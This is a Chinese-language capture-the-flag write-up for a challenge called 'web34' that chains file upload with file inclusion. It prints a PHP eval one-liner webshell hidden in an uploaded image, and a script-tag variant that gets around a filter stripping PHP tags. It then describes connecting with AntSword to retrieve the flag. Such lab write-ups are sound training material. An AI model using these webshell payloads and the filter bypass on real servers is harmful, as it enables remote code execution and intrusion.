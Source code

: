 # web34
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618661256468-3359652229290.png)
题目描述
文件包含
进入题目
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618661275097-4844353225845.png)
有?file=hello.php的字样
再打开源码
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618661298785-712855221599.png)
有个upload.php的字样
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618661319201-1270656239479.png)
文件上传
还有文件包含
这题估计是让上传一个图片马
然后用文件包含去执行这个图片马反弹shell
 ![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618661337491-1390558237083.png)
先上传一个图片再抓包然后在图片的结尾中加入一个一句话木马
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618661357417-299122225826.png)

```php
<?php @eval($_POST['shell']);?>
```
上传成功
去执行一下看看是否能执行
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618661373714-662223248266.png)
去文件包含里执行了文件
发现并没有执行
反而是吧<?php?>标签给替换成了_
emmmm
这就需要尝试另一种方法去注入码了

----

想起以前在buu做个的一道题，和这道题类似

php和javascript都是脚本语言
而且javascript是可以指定外部的脚本的
```javascript
<script language='php'>echo 'hello';</script>;
```
```php
include('test.js')
```
上面的执行结果就是
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618661390469-5571640243402.png)

上传一个js的外部指定木马

```javascript
<script language='php'>echo 'hello'; @eval($_POST['shell'])</script>
```
>echo的含义是验证是否执行了php代码

上传木马
![img](D:\ebook\markdown\image/bugku/1518944236948.png)
查看是否成功
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618661421003-5102844230082.png)
返回hell
执行成功
:D~~
用蚁剑连接
![img](D:\ebook\markdown\image/bugku/4354046220612.png)
连接成功在
根目录下找到flag
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618661448532-3413847223116.png)